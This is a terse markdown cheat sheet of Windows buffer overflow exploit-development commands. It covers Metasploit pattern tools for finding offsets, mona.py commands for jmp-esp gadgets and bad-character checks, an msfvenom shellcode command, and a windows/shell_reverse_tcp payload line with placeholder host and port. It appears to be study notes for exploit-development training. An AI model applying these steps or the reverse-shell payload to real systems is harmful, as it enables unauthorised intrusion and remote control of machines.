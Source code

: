 ##### msf-pattern_create -l 5000
##### msf-pattern_offset -q 0x000000
##### litend 000000 x

#### mona (jmp esp)
`!mona find -s "\xff\xe4" -m sample.dll`<br>
`!mona jmp -r esp`<br> 

#### mona (bad char)
`!mona config -set workingfolder c:\logs\%p` <br>
`!mona bytearray`<br>
`!mona compare -f C:\logs\sample\bytearray.bin -a eip`<br>
`!mona bytearray -cpb "\x00"`

#### msfvenom 
`msfvenom -p windows/exec -b '\x00\x0a' -e x86/shikata_ga_nai -n 16 -f python --var-name calc CMD=calc.exe EXITFUNC=thread` <br>
#### shellcode
`windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444`



